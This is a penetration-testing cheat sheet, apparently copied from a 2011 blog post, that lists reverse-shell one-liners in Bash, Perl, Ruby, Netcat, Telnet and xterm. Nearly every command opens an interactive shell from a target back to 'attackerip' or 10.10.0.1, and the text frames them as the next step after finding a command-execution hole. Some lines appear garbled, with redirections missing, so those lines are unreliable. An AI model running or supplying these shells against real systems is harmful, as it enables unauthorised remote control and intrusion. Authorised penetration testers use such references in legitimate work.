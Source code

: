 From [Bernardo Dag](https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html) / https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html

# Reverse shells one-liners
Inspired by the great blog post by pentestmonkey.net, I put together the following extra methods and alternatives for some methods explained in the cheat sheet. There is nothing cutting edge, however you may find this handy during your penetration tests.

Citing pentestmonkey's blog post:
If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards you’ll probably want an interactive shell.
[...] **your next step is likely to be either throwing back a reverse shell** or binding a shell to a TCP port.
Your options for creating a reverse shell are limited by the scripting languages installed on the target system – though you could probably upload a binary program too if you’re suitably well prepared.


💡💡💡  First of all, on your machine, set up a listener, where **`attackerip`** is your IP address and **`4444`** is an arbitrary TCP port unfiltered by the target's firewall:
```bash
nc -lv attackerip 4444
```

## Bash
Alternatives for **Bash** shell:
```bash
exec /bin/bash 0&0 2>&0
```
Or:
```bash
0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196
```
Or:
```bash
exec 5<>/dev/tcp/10.10.0.1/8888;cat <&5 | while read line; do $line 2>&5 >&5; done
```
or:
```bash
exec 5<>/dev/tcp/10.10.0.1/8888; while read line 0<&5; do $line 2>&5 >&5; done
```

See also [Reverse Shell With Bash](http://www.gnucitizen.org/blog/reverse-shell-with-bash/) / http://www.gnucitizen.org/blog/reverse-shell-with-bash/ from GNUCITIZEN blog.

## Perl

Shorter **Perl** reverse shell that does not depend on `/bin/sh`:
```bash
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
*If the target system is running Windows use the following one-liner:*
```bash
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

## Ruby
Longer **Ruby** reverse shell that does not depend on `/bin/sh`:
```bash
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
If the target system is running Windows use the following one-liner:
```bash
ruby -rsocket -e 'c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

## Netcat

Others possible **Netcat** reverse shells, depending on the Netcat version and compilation flags:
```bash
nc -c /bin/sh attackerip 4444
```
Or:
```bash
/bin/sh | nc attackerip 4444
```
Or:
```bash
rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p
```
See also [7 Linux Shells Using Built-in Tools](http://lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/) / http://lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/ from LaNMaSteR53 blog.

## Telnet

Of course, you can also use **Telnet** as an alternative for Netcat:
```bash
rm -f /tmp/p; mknod /tmp/p p && telnet attackerip 4444 0/tmp/p
```
Or:
```bash
telnet attackerip 4444 | /bin/bash | telnet attackerip 4445   #⚠️ Remember to listen on your machine also on port 4445/tcp
```

## xterm
Follows further details on **xterm** reverse shell:

To catch incoming xterm, start an open X Server on your system (:1 - which listens on TCP port 6001). One way to do this is with [Xnest](http://www.xfree86.org/4.4.0/Xnest.1.html) / http://www.xfree86.org/4.4.0/Xnest.1.html:
```bash
Xnest :1
```
⚠️ Then remember to authorise on your system the target IP to connect to you:
```bash
xterm -display 127.0.0.1:1  # Run this OUTSIDE the Xnest
xhost +targetip             # Run this INSIDE the spawned xterm on the open X Server
```
Then on the target, assuming that `xterm` is installed, connect back to the open X Server on your system:
```bash
xterm -display attackerip:1
```
Or:
```bash
$ DISPLAY=attackerip:0 xterm
```
It will try to connect back to you, `attackerip`, on TCP port `6001`.

Note that on Solaris xterm path is usually not within the `PATH` environment variable, you need to specify its filepath:
```bash
/usr/openwin/bin/xterm -display attackerip:1
```
